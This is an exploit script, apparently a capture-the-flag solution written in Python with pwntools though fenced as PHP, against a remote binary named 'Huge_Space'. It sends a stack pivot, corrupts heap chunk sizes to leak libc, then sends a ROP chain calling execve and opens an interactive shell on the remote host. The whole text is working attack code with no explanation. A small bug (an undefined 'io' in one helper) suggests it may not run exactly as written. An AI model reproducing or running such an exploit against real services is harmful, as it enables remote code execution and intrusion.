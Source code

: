 ```php
from pwn import * 
context.log_level = 'debug'
p = remote('123.57.69.203',5330 )

libc = ELF('./libc.so.6')
elf = ELF('./Huge_Space')

ru = lambda a,b=True : io.recvuntil(a,b)
sd = lambda x : p.send(x)
sl = lambda x : p.sendline(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
it = lambda : p.interactive()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
def leak(offset):
        addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
        base = addr - offset
        return base
def add(idx,size,content):
    sl('+++') 
    sla('Index:',str(idx)) 
    sla('Size: ',str(size))
    sla('Data: ',content)
def show(idx,size):
    sl('print') 
    sla('Index:',str(idx)) 
    sla('Size: ',str(size))

pop_rdi = 0x0000000000400be3
pop_rsi_r15 = 0x0000000000400be1
pop_rdx = 0x0000000000001b96
pop_rbp = 0x0000000000400860
leave_ret = 0x40090F
sh = 0x400909
writee = 0x400B19

sl('\x00'*0x48+p64(pop_rbp)+p64(0x6010c0+0x10)+p64(leave_ret))
add(0,0x10,'A'*0x10+p64(0)+p64(0xd81)) #0
add(1,0x1000,'B')#1
add(1,0xd50,'')#1

show(1,0x20)
libcbase = leak(0) - 0x3ebc00
lg('libcbase')
execve = libcbase + libc.symbols['execve'] 
lg('execve')

add(3,0x22000,'\x00'*(0x24518+16*8)+'\x00'*8)#3
sl('exit\x00\x00\x00\x00/bin\x00'+p64(pop_rdi)*2+p64(0x6010c0+8)+ p64(pop_rsi_r15)+p64(0)*2+p64(pop_rdx+libcbase)+p64(0)+p64(execve))
it()
```
